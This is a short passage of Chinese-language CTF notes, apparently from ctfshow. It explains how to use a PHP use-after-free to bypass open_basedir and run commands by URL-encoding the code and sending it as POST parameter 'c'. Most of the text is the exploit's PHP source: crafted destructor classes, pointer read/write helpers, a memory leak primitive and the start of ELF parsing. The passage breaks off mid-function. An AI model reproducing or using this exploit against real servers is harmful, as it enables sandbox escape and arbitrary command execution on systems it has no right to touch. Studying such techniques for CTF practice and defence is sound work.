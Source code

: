 - 这里c是post参数

#### uaf绕过open_basedir执行命令

- 用c=下面的内容，去掉前面的<?，对下面的php代码进行url编码

```php
<?php
function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
```